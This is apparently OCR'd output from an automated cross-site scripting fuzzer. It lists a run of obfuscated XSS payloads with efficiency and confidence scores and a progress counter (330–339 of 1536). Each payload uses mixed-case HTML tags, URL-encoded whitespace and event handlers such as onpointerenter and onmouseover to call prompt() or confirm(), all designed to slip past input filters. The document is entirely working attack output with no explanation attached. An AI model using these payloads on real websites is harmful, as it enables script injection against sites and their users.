 ------------------------------------------------------------
 Payload: <D3V%0dONpOINtEREnTeR%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 330/1536
 
------------------------------------------------------------
 Payload: <DEtAILs%0dONPoInTeRENTEr%0a=%0aa=prompt,a()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 331/1536
 
------------------------------------------------------------
 Payload: <HTml%0doNpOintERenTEr+=+confirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 332/1536
 
------------------------------------------------------------
 Payload: <d3V%0donPoINTereNTEr+=+(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 333/1536
 
------------------------------------------------------------
 Payload: <a/+/onmOUSEOveR%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 334/1536
 
 Progress: 335/1536
 
------------------------------------------------------------
 Payload: <dETaiLs/+/oNpoIntErENTer%09=%09confirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 336/1536
 
------------------------------------------------------------
 Payload: <HTmL%09oNPOintERenTER%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 337/1536
 
------------------------------------------------------------
 Payload: <htMl%0donpoINTerenTEr%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 338/1536
 
------------------------------------------------------------
 Payload: <D3v/+/oNmouSeOvEr%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 339/1536
 